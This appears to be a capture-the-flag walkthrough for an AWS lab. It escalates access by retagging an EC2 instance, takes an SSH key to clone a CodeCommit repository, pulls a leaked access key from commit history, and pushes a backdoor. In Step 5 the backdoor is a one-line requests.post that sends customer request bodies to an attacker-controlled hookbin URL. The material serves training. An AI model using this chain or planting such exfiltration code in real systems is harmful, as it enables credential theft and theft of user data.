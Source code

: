 

## Step 1

You are given credentials of an initial IAM user. 

Using the AWS CLI or AWS Console (e.g. using `aws-vault add initial` then `aws-vault login initial --no-session`), note that the IAM policy attached to your user allows it to establish a SSM session on all EC2 instances tagged with `Environment=sandbox`, and to manage tags of all EC2 instances tagged with `Environment=dev`.

Check the running EC2 instances. You notice one is tagged with `Environment=dev`, and you therefore can't SSM to it. Instead, overwrite the `Environment` tag with the value `sandbox`, then establish a SSM session to the instance:

```
aws ec2 create-tags --resources i-xxxx --tags Key=Environment,Value=sandbox
aws ssm start-session --target i-xxxx
```

If ssm start-session does not work make sure to install the ssm [session-manager plugin](https://docs.aws.amazon.com/systems-manager/latest/userguide/session-manager-working-with-install-plugin.html). 

## Step 2

On the instance, notice the private SSH key stored at `/home/ssm-user/.ssh/id_rsa`.

![Screen Shot 2022-06-21 at 6 29 59 PM](https://user-images.githubusercontent.com/4079939/174924027-54c04c15-a025-40f6-b0ba-be3d143be3d3.png)

- Copy the SSH key to your local machine (`~/.ssh/stolen_key`) and run `chmod 600 ~/.ssh/stolen_key` on it.

Next you can extract the corresponding public key fingerprint to notice it is linked to the CodeCommit credentials of the IAM user `cloner`, who has the permission `codecommit:GitPull` on a repository:

```
$ chmod 600 ~/.ssh/stolen_key
$ ssh-keygen -f ~/.ssh/stolen_key -l -E md5
2048 MD5:c8:86:28:03:a1:d5:af:77:2c:62:6a:73:59:69:c6:ba no comment (RSA)

$ aws iam list-ssh-public-keys --user-name cloner
{
  "SSHPublicKeys": [
    {
      "UserName": "cloner",
      "SSHPublicKeyId": "APKA254BBSGPK2B5K5YQ",
      "Status": "Active",
      "UploadDate": "2021-12-27T10:34:19+00:00"
    }
  ]
}
$ aws iam get-ssh-public-key --user-name cloner --ssh-public-key-id <SSHPublicKeyId found above> --encoding PEM --output text --query 'SSHPublicKey.Fingerprint'
c8:86:28:03:a1:d5:af:77:2c:62:6a:73:59:69:c6:ba
```

## Step 3

Set up your local environment to clone the repository using the [CodeCommit documentation](https://docs.aws.amazon.com/codecommit/latest/userguide/setting-up-ssh-unixes.html). In short:


- Find the CodeCommit user ID of `cloner` using `aws iam list-ssh-public-keys --user-name cloner --output text --query 'SSHPublicKeys[0].SSHPublicKeyId'`

- Use the following SSH configuration (in your `.ssh/config`):

```
Host git-codecommit.*.amazonaws.com
	IdentityFile ~/.ssh/stolen_key
	PubkeyAcceptedAlgorithms +ssh-rsa
        HostkeyAlgorithms +ssh-rsa
```

- Then, clone the repository using `git clone ssh://<SSH-KEY-ID>@git-codecommit.us-west-2.amazonaws.com/v1/repos/backend-api` (where `SSH-KEY-ID` should look like `APKA2...`)

## Step 4

The repository contains the backend code of the Lambda function exposed through the API gateway. Check the commit history to note a leaked access key:

```diff
commit 576bc9e2979cb780dacefa1cf758dabb29f6b223
Author: christophe <christophe>
Date:   Mon Dec 27 10:38:31 2021 +0000

    Use built-in AWS authentication instead of hardcoded keys

diff --git a/buildspec.yml b/buildspec.yml
index 7130465..4beaa61 100644
--- a/buildspec.yml
+++ b/buildspec.yml
@@ -1,22 +1,20 @@
-      version: 0.2
+version: 0.2
 phases:
   pre_build:
     commands:
-    - export AWS_ACCESS_KEY_ID=AKIA...
-    - export AWS_SECRET_ACCESS_KEY=hnOVW...dtX
     - echo "Authenticating to ECR"
```

## Step 5

These credentials you found belong to the user `developer`, who has pull and push access to this repository. Use this access to backdoor the application and steal the sensitive data that customers are sending to the API!

- For instance, add a piece of code to the checked out repo that sends the secret data to an attacker-controlled server. You can use something similar to what is shown below, if you do, you'll want to first generate your own hookbin link at https://hookbin.com/.

```diff
diff --git a/app.py b/app.py
index 10e7da5..e17a2ba 100644
--- a/app.py
+++ b/app.py
@@ -3,6 +3,7 @@ import json

 def handle(event):
   body = event.get('body')
+  import requests; requests.post("https://hookbin.com/kx...", data=body)
   if body is None:
     return 400, "missing body"
```



- Ensure the credentials you found above are set in your environment or a profile.

```
export AWS_ACCESS_KEY_ID=AKIA...
export AWS_SECRET_ACCESS_KEY=hnOVW...dtX
```

- You can then commit the file and push it with the following AWS command:

```
$ aws codecommit get-branch --repository-name backend-api  --branch-name master
{
    "branch": {
        "branchName": "master",
        "commitId": "e6a2c7...."
    }
}

$ aws codecommit put-file --repository-name backend-api --branch-name master --file-content fileb://./app.py --file-path app.py --parent-commit-id <Commit ID found above>
```


Note that the application is automatically being built by a CI/CD pipeline in CodePipeline. It may take a bit to deploy, give it some time and you should see the flag show up on hookbin if you used the method above (you may need to refresh the page though).
